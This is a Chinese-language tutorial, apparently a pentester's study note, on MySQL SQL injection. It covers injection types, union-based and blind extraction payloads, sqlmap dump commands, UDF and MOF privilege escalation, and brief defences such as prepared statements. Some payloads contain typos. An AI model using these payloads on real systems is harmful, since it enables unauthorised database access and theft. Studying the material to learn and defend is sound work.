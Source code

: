 ## 基于 mysql 数据库的 sql注入



### 漏洞分析



#### 漏洞成因

开发人员在编写代码时未进行严格过滤（或sql语句的使用错误，特殊字符的使用错误），从而引发

将代码拼接到sql语句并执行（本质）



#### 漏洞危害

获取数据库权限（对数据的删除，添加，修改，读取）

为获取权限时，可以进行读取一部分数据（可能会包含敏感信息）



### 漏洞详解

#### 分类

##### 根据请求方式分类

```bash
get注入：在get参数部分 如 ?id=1 id为注入点

post注入：注入点在post数据部分，常发生在表单中

http头注入：注入点在http请求头部的某个字段中，如UA，referer， 
cookie在http请求中也算是头部的一个字段
```



##### 根据注入点类型分类

```bash
数字型：注入点id为数字

字符型：注入点id类型为字符，在进行sql注入时使用的 ’ 作用为闭合前边的单引号。
```



##### 根据执行情况分类

```bash
回显注入:页面会回显sql语句查询的内容

报错注入:页面会返回错误信息，或者将语句查询到的不完全的数据返回到页面
# updataxml()函数，concat()函数
# 语法：updatexml(XML_documen,XPath_string,new_value)，
# 实例：updatexml(1,concat(0x7e,( ),0x7e),1)
### 在updatexml函数中，第一个参数为xml的名称，第二个的参数为代表路径，第三个参数代表更新的数据，使用updatexml函数时，~的ASCII码为0x7e, ~不符合xpath_string的语法格式，concat()函数是字符串连接函数，明显不符合语法规范，从而产生致命的错误将数据输出。PS：也可以用其他字符的ASCII码来代替07xe(~)

盲注:
布尔盲注：无法通过页面的回显获取需要的数据，只会返回真假
时间盲注：无法返回真假，通过观察页面回显的时间长短来判断
# length() 函数 返回字符串长度
# substr() 函数 截取字符串 语法：(substr(string,start,leng)
# ascii() 函数 返回ascii码
# if(ex1,ex2,ex3) 判断语句，如果ex1正确，执行ex2，错误执行ex3
sleep() 设定延时时间
# 执行流程

### 爆破数据库名称的长度 1’ and (length(database()))>5
### 爆破数据库的名称 1’ and ascii(substr(database(),1,1))=100 --+ 通过改变substr()函数中start的数值，测试出库的名称(第一个字母为ASCII码)
### 爆破表名 1’ and (select ascii(substr((select table_name from information_schema.tables where table_schema=’ 库名’ limit 0,1),1,1)))=97 --+
### 爆破列名 1’ and (select ascii(substr((select column_name from information_schema.columns where table_name=’ 表名 ’ limit 0,1),1,1)))=97 --+
### 爆破字段 1‘ and (select ascii(subtr((select 列名 from 表名 limit 0,1),1,1)))=97 --+
###时间盲注的过程与布尔盲注几乎一致，只是需要采用if()函数和sleep()函数，判断页面是否延时
```



##### 其他注入方式

```bash
堆叠注入:将多个sql语句堆叠在一起进行查询，打破了select的限制，可以对其进行增删改查。
在php中存在mysqli_multi_query()函数——执行一个或多个针对数据库的查询，多个查询用分号进行分隔

宽字节注入:利用编码格式的差异，在 ’ 前加入一个字符，使其和 \ 组合误认为汉字，达到让 \ 消失的目的，发挥 ’ 的作用，适用于GBK等编码
# 英文默认占用一个字节，汉字占用两个字节

注释符注入： 注释符常用的有#，–，/* */ 三种
# –通常不能直接使用，一般是使用–+，因为只使用–的时候无法对sql语句进行闭合，需要+或是’来对其进行闭合完成注入语句
# #在URL中会被认为是锚点，使用时需要进行编码，%23
# /**/内联注释是注释指定部分，需要一前一后的闭合，一般用于过滤空格
```



#### sql注入流程

```bash
# 判断是否存在sql注入
假设存在 select password from admin where id =
当我们输入id=1’时，不符合sql语法的规范，会产生报错
而使用and 1=1 and 1 =2 被拦截的可能性太高了，使用and -1=-1 and -1 = -2 观察回显情况
当对参数进行乘法，看页面是否变化
使用sleep函数观察回显的时间

# 使用order by观察回显情况 猜解列数 使用二分法，如果输入错误则报错，存在就维持现状
# 使用union联合查询（将多条查询结果拼接到一个结果中），寻找输出位，
使用语句获取信息
### -1 union select 1, database() 查询当前数据库
### -1 union select 1,group_concat(schema_name) from information_schema.schemata 查询所有数据库
### -1 union select 1,gruop_concat(table_name)from information_schema.tables where table_schema=‘库名’ 查询表名
### -1 union select 1,group_concat(column_table) from information_schema.columns where table_schema=‘库名’ and table_name=‘表名’ 查询列名
### -1 union select 1,group_concat(列名) from 表名 查询字段内容
### PS:limit可以规定返回记录的数目，-1是为了使union前产生一个错误从而执行后边的语句
```



#### sqlmap基础使用

```bash
# python sqlmap.py -u “URL” 判断是否存在注入
# python sqlmap.py -u “URL” --dbs 查询所有的数据库
# python sqlmap.py -u “URL” -current–db 查询当前数据库
# python sqlmap.py -u “URL” -D 库名 --tables 查询指定库的所有表
# python sqlmap.py -u “URL” -D 库名 -T 表名 --columns 查询指定库指定表的所有列名
# python sqlmap.py -u “URL” -D 库名 -T 表名 -C 列名 --dump 爆出该库该表该列的数据
```



### mysql 提权方式

#### UDF提权

UDF 即用户自定义函数，通过添加新的函数，对mysql服务器的功能进行扩充。

函数使用

```bash
# select version();
# select user();
# select @@basedir; 获取数据库安装目录
# show variables like "%plugin%"; 查看plugin路径
### mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下，该目录默认是不存在的，需要使用webshell找到mysql的安装目录，并在安装目录下创建MySQL\Lib\Plugin\文件夹，然后将udf.dll导入到该目录。
### mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。
## 掌握mysql数据库的账户，从拥有对mysql的insert和delete权限，以创建和抛弃函数。拥有可以将udf.dll写入相应目录的权限。
```

导出UDF文件：

````bash
# MySQL<5.0，导出路径随意；
# 5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）
# MySQL 5.1以上版本，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数。
````

提权流程





#### MOF提权

主要是利用`C:\Windows\System32\wbem\MOF`目录下的 `nullevt.mof`文件

该文件具有每分钟都执行一次的特性，向该文件中写入cmd命令，将会被执行

MOF一般只针对Windows2003以下的操作系统



#### 启动项提权

后续补充



### 漏洞防范

配置waf文件进行防护

使用mysql预编译机制 （预编译：在服务器启动时，mysql client把sql语句模板（变量采用占位符进行占位）发送给mysql服务器，mysql服务器对sql语句的模板进行编译，编译后依据语句对索引进行优化，在最终绑定参数的时候把相应的参数传给mysql服务器，直接执行，防范原理：预编译过程中，mysql服务器对参数进行编译的过程即为填充相应占位符的过程，即转义）

限制数据权限和特权



























